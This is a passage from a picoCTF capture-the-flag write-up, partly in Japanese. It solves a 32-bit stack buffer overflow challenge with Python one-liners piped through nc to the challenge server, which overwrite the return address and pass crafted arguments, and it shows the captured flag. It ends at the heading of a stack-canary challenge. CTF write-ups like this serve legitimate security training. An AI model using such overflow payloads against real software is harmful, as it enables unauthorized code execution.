 Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />

### Solution
これは [picoCTF 2019のOverFlow 2](https://captureamerica.github.io/writeups/post/picoctf_2019_binary/#binary-exploitation-overflow-2-250-points) とほぼ同じです。

<br />

Python2:
<pre>
captureamerica@kali:Pwn$ (python -c 'print("A"*112+"\x96\x92\x04\x08"+"BBBB"+"\x0D\xF0\xFE\xCA"+"\x0D\xF0\x0D\xF0")'; cat -) | nc saturn.picoctf.net 53371
Please enter your string:
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBB
picoCTF{argum3nt5_4_d4yZ_31432deb}
</pre>

<br />

Python3:
<pre>
captureamerica@ubuntu:Pwn$ (python -c 'import sys; sys.stdout.buffer.write(b"A"*112 + b"\x96\x92\x04\x08" + b"BBBB" + b"\x0D\xF0\xFE\xCA" + b"\x0D\xF0\x0D\xF0" + b"\n")'; cat - ) | nc saturn.picoctf.net 52189
Please enter your string:
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBB
picoCTF{argum3nt5_4_d4yZ_920d6844}
</pre>

<br />

Flag: `picoCTF{argum3nt5_4_d4yZ_31432deb}`




<br /><br />
<br /><br />
## [Binary]: buffer overflow 3 (300 points)
- - -
### Challenge
> Do you think you can bypass the protection and get the flag?
<br /><br />
It looks like Dr. Oswal added a stack canary to this program to protect against buffer overflows.


Attachment:

- vuln (ELF 32-bit)
- vuln.c
